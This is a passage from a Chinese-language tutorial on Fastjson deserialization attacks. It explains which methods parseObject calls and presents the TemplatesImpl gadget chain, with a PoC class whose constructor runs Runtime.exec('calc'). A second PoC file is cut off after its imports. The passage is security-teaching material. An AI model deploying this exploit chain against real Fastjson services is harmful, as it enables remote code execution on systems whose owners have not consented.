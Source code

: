# 0x03 FastJSON基础

- 当反序列化为JSON.parseObject(*)形式即未指定class时，会调用反序列化得到的类的构造函数、所有属性的getter方法、JSON里面的非私有属性的setter方法，其中properties属性的getter方法调用了两次；
- 当反序列化为JSON.parseObject(*,*.class)形式即指定class时，只调用反序列化得到的类的构造函数、JSON里面的非私有属性的setter方法、properties属性的getter方法；
- 当反序列化为JSON.parseObject(*)形式即未指定class进行反序列化时得到的都是JSONObject类对象，而只要指定了class即JSON.parseObject(*,*.class)形式得到的都是特定的Student类；
- 如果需要还原出private属性的话，还需要在JSON.parseObject/JSON.parse中加上Feature.SupportNonPublicField参数。

## 基于TemplateImpl的利用链

### 依赖

**Java字节码的执行，需要设置Feature.SupportNonPublicField进行反序列化操作才能成功触发利用。**  ****

### POC

**Test.java**

```java
package com;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

**PoC.java**

```java
package com;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.codec.binary.Base64;
import org.apache.commons.compress.utils.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

```